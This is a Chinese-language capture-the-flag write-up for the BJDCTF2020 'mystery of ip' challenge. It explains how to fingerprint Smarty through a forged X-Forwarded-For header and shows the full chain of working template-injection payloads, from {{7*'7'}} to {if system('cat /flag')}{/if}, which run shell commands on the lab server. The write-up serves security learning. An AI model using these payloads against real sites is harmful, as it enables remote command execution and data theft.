



# [BJDCTF2020] The mystery of ip — 认错引擎的一半时间

> **题目类型**：Web — SSTI（Smarty / PHP）
>
> **题目地址**：BUUCTF / ctf2 复刻环境
>
> **Flag**：`CTF2{96ccbb12-bfb7-4d63-82a5-9424b108d493}`

---

## 题目概述

进入靶场只有两个链接：`flag` 和 `hint`。

`hint` 里没放东西。打开 `flag`，页面输出：

```text
Your IP is : 10.42.1.78
```

**问题来了：它怎么知道我的 IP 的？**

---

## 解题过程

### Step 1：既然它读 IP，那就伪造 IP

**服务器判断"你的 IP"，通常看 `X-Forwarded-For` 这类头（反向代理会加）。所以先手动改一个试试：**

```powershell
curl.exe -k -H "X-Forwarded-For: TESTIP_9.9.9.9" "https://…:9999/flag.php"
```

**页面真的跟着变了 —— 说明这个头被原样拿来用。**

**（这道题的平台给的是裸 TCP 地址，但它其实是个 HTTPS 服务，所以我直接用 `https://host:9999/` 访问，不需要 nc / openssl。）**

### Step 2：改完还能正常输出，那就试模板注入

**先上最基础的探针：**

```text
X-Forwarded-For: {{7*7}}      →  49
```

**模板被执行了。**但这一刻**不要急着下结论**。

### Step 3：`{{7*'7'}}` 才是分水岭

```text
X-Forwarded-For: {{7*'7'}}    →  49
```

**这个结果说明引擎把 `'7'` 当成数字处理了 —— 那是 PHP 系模板的行为。**

| 引擎 | `7*'7'` 的结果 |
|---|---|
| Jinja2（Python） | `7777777`（字符串重复） |
| Smarty / Twig（PHP） | `49`（转成数字相乘） |

**所以这不是 Jinja2。看报错也印证了：**

```text
Uncaught --> Smarty Compiler: Syntax error in template …
thrown in /var/www/html/libs/sysplugins/smarty_internal_templatecompilerbase.php
```

**`sysplugins/smarty_internal_*` 就是 Smarty 的源码目录。**

> **这一步我走了弯路：**一开始按题名以为是 Flask 版，直接套 `__class__` 那条链，结果报错说 Smarty 语法不对。**只测 `{{7*7}}` 是不够的 —— Jinja 和 Smarty 都回 49。**

### Step 4：确认 Smarty 版本

```text
X-Forwarded-For: {$smarty.version}
```



```text
Your IP is : 3.1.34-dev-7
```

**Smarty 3.1。**这意味着 Smarty 2 时代的 `{php}…{/php}` 标签**已经被移除了**，那条路走不通。

### Step 5：Smarty 3 的路子是 `{if}`

**Smarty 的 `{if}` 表达式最终会被编译成 PHP 的 `if (...)`，而表达式里的函数调用会被原样写进编译结果。**

```php
// {if phpinfo()}{/if}  编译后大致是：
if (phpinfo()) { }
```

**所以先验证这条路通不通：**

```text
X-Forwarded-For: {if phpinfo()}{/if}
```

**成功返回了 phpinfo 页面。**

### Step 6：先看环境，再读文件

**phpinfo 里翻两件事：**

```
disable_functions   →  空        （system / exec 都没禁）
open_basedir        →  没设      （没有被限制目录）
```

**顺手看了环境变量，只有一个 `FLAG=not_flag`：**



**这是干扰项，别信。**

### Step 7：执行命令

**注意 `{if}` 只判断真假，不打印值。所以要挑"自己会 echo 出来"的函数。`system` 属于这类。**

```text
X-Forwarded-For: {if system('ls /')}{/if}
```



**根目录下有个 `flag`。**

### Step 8：读出来

```text
X-Forwarded-For: {if system('cat /flag')}{/if}
```

```text
CTF2{96ccbb12-bfb7-4d63-82a5-9424b108d493}
```

---

## 解题思路总结

```text
页面显示 "Your IP is" → 改 X-Forwarded-For 验证伪造
  → 改完还正常输出 → 试 {{7*7}} 得 49 → 模板被执行
    → {{7*'7'}} 也回 49 → 不是 Jinja2，是 PHP 系（Smarty）
      → 报错里的 smarty_internal_*.php 印证
        → {$smarty.version} 得 3.1.34 → {php} 标签已移除
          → {if phpinfo()}{/if} 成功 → {if} 里能调 PHP 函数
            → 看 disable_functions / open_basedir → 都没限制
              → {if system('ls /')}{/if} 看到 /flag
                → {if system('cat /flag')}{/if} 拿到 flag
```

### 漏洞原理

**① 输入来源不只是参数，还有请求头**

`X-Forwarded-For` 是代理用来传递客户端 IP 的头。**如果应用直接信任它、又把它拼进模板，那就同时拿到"注入点"和"可伪造的输入"。**

**② 模板引擎把"表达式"编译成代码**

Smarty 把 `{if 表达式}` 编译成 PHP 的 `if (表达式)`。**只要表达式里允许出现函数调用，就等于允许执行 PHP 函数。**这和 Jinja 的 `{{ }}` 能访问对象属性是同一类问题的不同表现。

**③ `{if}` 只判真假，不打印值**

```php
if (phpinfo()) { }                    // phpinfo 自己会输出 → 能看到
if (file_get_contents('/flag')) { }   // 只返回字符串 → 页面空白
```

**所以要选"会输出"的函数**（`phpinfo`、`system`、`readfile`、`print`），或者把返回值再套一层输出函数。

### 关键知识点

| 知识点 | 说明 |
|---|---|
| `X-Forwarded-For` | 伪造客户端 IP；应用信任它就是注入点 |
| `{{7*7}}` | 只证明"模板被执行"，**不能分辨引擎** |
| `{{7*'7'}}` | **Jinja2 → `7777777`；PHP 系 → `49`** |
| Smarty 语法 | `{标签}` / `{$变量}` / `{$var\|修饰符}`，**没有对象属性访问** |
| `{$smarty.version}` | Smarty 内置变量，看版本 |
| Smarty 2 vs 3 | `{php}…{/php}` 在 3.x 已移除 |
| `{if 函数()}{/if}` | Smarty 3 里调用 PHP 函数的入口 |
| `disable_functions` / `open_basedir` | 决定拿到函数调用之后能走多远 |
| 环境变量里的 `FLAG=not_flag` | 干扰项，别信 |

---

??? note "这题踩的两个坑"

    **① 认错引擎**

    只测了 `{{7*7}}` 回 49 就往 Jinja2 的 `__class__` 链上走，报错才发现是 Smarty。

    **教训：`{{7*7}}` 只证明"模板在执行"，`{{7*'7'}}` 才区分引擎。**

    **② 中文引号**

    手打 payload 时输入法给了 `‘’`（U+2018/U+2019），Jinja/Smarty 都不认，报 `unexpected char`。

    **打模板时把输入法切英文；报错里连位置都给了（`at 2`），照着看就行。**
